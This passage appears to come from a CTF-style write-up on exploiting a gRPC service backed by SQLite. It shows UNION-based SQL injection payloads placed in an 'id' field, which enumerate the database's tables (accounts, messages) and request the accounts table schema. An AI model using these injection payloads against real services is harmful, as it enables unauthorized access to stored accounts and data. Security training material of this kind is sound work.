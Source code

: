 ##### Result

```json
{
  "headers": [
    {
      "name": "content-type",
      "value": "application/grpc"
    },
    {
      "name": "grpc-accept-encoding",
      "value": "identity, deflate, gzip"
    }
  ],
  "error": null,
  "responses": [
    {
      "message": {
        "message": "3.31.1"
      },
      "isError": false
    }
  ],
  "requests": {
    "total": 1,
    "sent": 1
  },
  "trailers": []
}
```

#### SQLlite dump tables
We can now dump all the tables in the database.
##### Request

```json
"data":[
    {
        "id":"0 union SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'"
    }
    ]
```
##### Result
```json
  "responses": [
    {
      "message": {
        "message": "accounts,messages"
      },
      "isError": false
    }
  ],
```
#### SQLlite get columns
Getting the columns of the `accounts` table.
##### Request
```json
"data":[
    {
        "id":"0 union SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='accounts'"
    }
    ]
```